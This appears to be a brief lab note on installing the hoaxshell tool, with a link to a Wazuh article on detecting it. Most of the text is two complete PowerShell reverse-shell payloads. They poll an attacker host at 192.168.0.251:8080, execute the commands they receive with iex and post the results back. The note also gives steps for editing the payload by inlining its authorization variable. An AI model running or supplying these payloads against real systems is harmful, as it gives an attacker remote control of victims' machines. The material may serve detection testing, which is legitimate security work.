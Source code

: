 #### Installation
```
python3 -m venv hxshell
```
```
cd hxshell
```
```
source bin/activate
```
```
git clone https://github.com/t3l3machus/hoaxshell && cd ./hoaxshell
```
```
pip3 install -r requirements.txt
```
```
chmod +x hoaxshell.py
```
#### Wazuh POC
https://wazuh.com/blog/detecting-hoaxshell-with-wazuh/
Example below of editing payload.  Attacker box is the 192.168.0.251.  Edit a copy of the payload by replacing all mentions of the variable $i with its value declared in the payload, and delete the variable declaration from the payload as shown below.
```
$s='192.168.0.251:8080';$i='a272d586-a50a2f80-21ac44cc';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/a272d586 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a50a2f80 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/21ac44cc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```
```
$s='192.168.0.251:8080';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/a272d586 -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a50a2f80 -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/21ac44cc -Method POST -Headers @{"Authorization"='a272d586-a50a2f80-21ac44cc'} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```